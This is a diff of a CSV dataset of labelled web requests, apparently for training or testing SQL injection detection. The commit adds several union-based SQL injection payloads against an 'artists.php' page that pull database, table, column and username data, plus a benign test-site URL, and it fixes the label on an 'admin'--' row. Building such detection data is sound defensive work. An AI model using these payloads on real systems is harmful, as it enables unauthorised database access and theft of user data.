

Before and after one commit to WebSec-ext/DataSet, a CSV file: sqli.csv.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/sqli.csv.csv
+++ b/sqli.csv.csv
@@ -4268,2 +4268,8 @@ files,0
 docs,0
+"artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'",1
+"artists.php?artist=-1 union select 1,group_concat(uname),3 from users",1
+"artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()",1
+"artist=-1 union select 1,database(),version()",1
+"artists.php?artist=-1 union select 1,2,3",1
+"http://testphp.vulnweb.com",0
 ; --,1
@@ -4483,2 +4489,2 @@ admin"--,1
 admin'-- -,1
-admin'--
+admin'--,1
```
Also changed, not shown: 1 other file.
